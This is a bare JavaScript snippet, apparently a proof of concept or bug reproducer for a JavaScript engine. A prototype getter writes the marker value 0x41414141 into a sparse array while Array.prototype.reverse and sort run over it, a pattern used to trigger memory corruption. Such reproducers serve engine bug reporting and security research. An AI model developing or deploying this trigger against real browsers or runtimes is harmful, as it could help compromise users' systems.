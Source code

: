 
let arr = [];
arr[1000] = 321321;
let proto = {};
Object.defineProperty(proto, "0", {get: function() {
    arr[2000] = 0x41414141;
    return 123;
}});

arr.__proto__ = proto;
Array.prototype.reverse.call(arr);
Array.prototype.sort.call(arr);

